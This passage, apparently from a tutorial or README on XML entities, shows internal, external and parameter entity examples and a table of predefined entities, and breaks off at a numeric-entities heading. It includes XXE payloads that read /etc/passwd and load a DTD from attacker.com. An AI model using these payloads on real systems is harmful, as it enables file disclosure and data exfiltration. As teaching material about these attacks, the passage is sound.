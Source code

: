 
## 🧪 Examples

### 📄 Internal Entity

```xml
<!DOCTYPE foo [
  <!ENTITY msg "Hello, World!">
]>
<note>&msg;</note>
```

---

### 📂 External Entity

```xml
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<data>&xxe;</data>
```

---

### 🧬 Parameter Entity (Advanced XXE)

```xml
<!DOCTYPE foo [
  <!ENTITY % payload SYSTEM "http://attacker.com/payload.dtd">
  %payload;
]>
```

---

### 🔒 Predefined Entities

| Character | Entity   |
| --------- | -------- |
| `<`       | `&lt;`   |
| `>`       | `&gt;`   |
| `&`       | `&amp;`  |
| `"`       | `&quot;` |
| `'`       | `&apos;` |

---

### 🔢 Numeric Entities
